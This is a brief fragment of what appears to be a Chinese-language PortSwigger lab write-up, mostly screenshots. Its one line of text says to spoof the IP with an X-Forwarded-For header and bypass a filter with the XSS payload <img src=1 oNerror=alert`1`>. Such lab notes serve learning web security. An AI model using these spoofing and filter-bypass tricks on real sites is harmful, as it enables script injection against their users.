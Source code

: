 ![image-20250714015504509](portswigger.assets/image-20250714015504509.png)

用XFF伪造ip 然后简单绕过**<img src=1 oNerror=alert`1`>**

![image-20250714020332933](portswigger.assets/image-20250714020332933.png)

